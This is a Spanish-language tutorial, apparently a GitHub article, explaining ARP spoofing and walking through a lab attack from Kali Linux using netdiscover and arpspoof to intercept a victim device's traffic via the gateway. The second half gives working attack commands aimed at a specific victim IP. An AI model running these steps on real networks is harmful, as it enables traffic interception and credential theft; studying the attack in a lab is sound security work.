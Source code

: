 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=430&lines=Ataque+de+ARP+Spoofing/Poison"></a>
</p>

<h1 align="center"></h1>

La suplantación de ARP (ARP Spoofing) o envenenamiento ARP (ARP Poison) es un tipo de ataque en el que un autor malicioso envía mensajes ARP (Protocolo de Resolución de Direcciones) falsificados a través de una red local, lo que da como resultado la vinculación de la dirección MAC del atacante con la dirección MAC del dispositivo o servidor legítimo en la red. De este modo, el atacante comenzará a recibir los datos destinados de esa dirección IP, permitiendo así que que partes malintencionadas intercepten, modifiquen o incluso detengan datos en tránsito. 

Los ataques de suplantación de identidad ARP solo pueden ocurrir en redes de área local que utilizan el Protocolo de resolución de direcciones. Se trata de un protocolo muy importante en la red ya que tiene como objetivo vincular la dirección MAC correspondiente con la IP asignada. Para conseguir esto se envía un paquete (solicitud ARP) a todos los dispositivos en la LAN Ethernet. ARP convierte dinámicamente las direcciones de Internet en las direcciones de hardware con una dirección IP, cada dispositivo recibe una máscara de subred, dirección IP y MAC para poder navegar en internet y enviar datos a través TCP/IP.

Dicho lo anterior, ARP es un protocolo sumamente importante pero que en ocasiones presenta vulnerabilidades. Es por ello que puede haber suplantación ARP, este ataque suele ocurrir en áreas de redes locales y tiene graves consecuencias tanto para simples usuarios como a nivel empresarial. Los ataques de suplantación ARP se utilizan para robar información confidencial, pero más allá de ésto, a menudo se ejecutan para facilitar otros vectores de ataque como:

- **Ataques de denegación de servicio**: Los ataques DoS se aprovechan de la suplantación de ARP para vincular varias direcciones IP con la dirección MAC de un solo objetivo. De tal manera que el tráfico destinado a muchas direcciones IP diferentes se redirigirá a la dirección MAC del objetivo, sobrecargando el objetivo con tráfico.

- **Secuestro de sesión**: Los ataques de secuestro de sesión pueden usar la suplantación de identidad ARP para robar ID de sesión, otorgando a los atacantes acceso a sistemas y datos privados.

- **Ataques de hombre en medio (MITM)**: Los ataques MITM pueden basarse en la suplantación de identidad ARP para interceptar y modificar el tráfico entre las víctimas, permitiendo ver y capturar las credenciales de sitios webs que visita el usuario.



<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Redes/GNU-Linux/img/ARP_Spoofing.png">
</p>

<h1 align="center"></h1>

### Ataque ARP Spoofing a Windows 10 | Manual

El siguiente ejercicio práctico que se vera a continuación es cómo realizar un ataque ARP Spoofing a un sistema Windows desde nuestro laboratorio hacking (Kali Linux), cambiando la dirección MAC de la víctima y poder leer o enviar paquetes hacia su equipo pasando antes por nuestro atacante.

Desde nuestra máquina atacante debemos tener instalada la herramienta **ArpSpoof** de la suite Dsniff.

**_Instalar en Debian:_**
```
sudo apt-get install dsniff
```

El primer paso es conocer la dirección IP de nuestro Gateway. Para esto, ejecutar el siguiente comando:
```
route -n
```

![1](https://user-images.githubusercontent.com/75953873/229241674-7c33df54-fd21-4414-b339-c3bef833dc17.png)


Seguidamente debemos reconocer la dirección IP privada de nuestra víctima (en mi caso un dispositivo Android). Para ello, podemos hacer uso de varias herramientas que viene instaladas por defecto, por ejemplo, Netdiscover.

```
netdiscover -i wlan0 -r 192.168.1/24
```
![2](https://user-images.githubusercontent.com/75953873/230746245-726156f1-a7ca-4f24-b6a6-cd371f0ff29b.png)


Lo que haremos a continuación es interceptar el tráfico del dispositivo Android (192.168.1.4), de modo que, el tráfico pase por nosotros y éste pase al Gateway (192.168.1.1) y viceversa. Ejecutamos el siguiente comando:

```
arpspoof -i wlan0 -t 192.168.1.4 192.168.1.1
```

- **-i**: Especificar la interfaz de red.

- **-t**: IP privada de la víctima (tráfico a interceptar).

![3](https://user-images.githubusercontent.com/75953873/229243937-50f84ca2-e064-4302-b258-1065b90a43c7.png)

En la imagen anterior se observa como el tráfico del dispositivo Android fue interceptado para que primero pase por mi máquina atacante y luego redireccionado al Gateway. Ahora, abrimos otra terminal (sin cerrar la primera) y ejecutamos el mismo comando pero viceversa, es decir, capturar el tráfico del Gateway (respuesta) que va dirigido a la víctima.

```
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.4
```
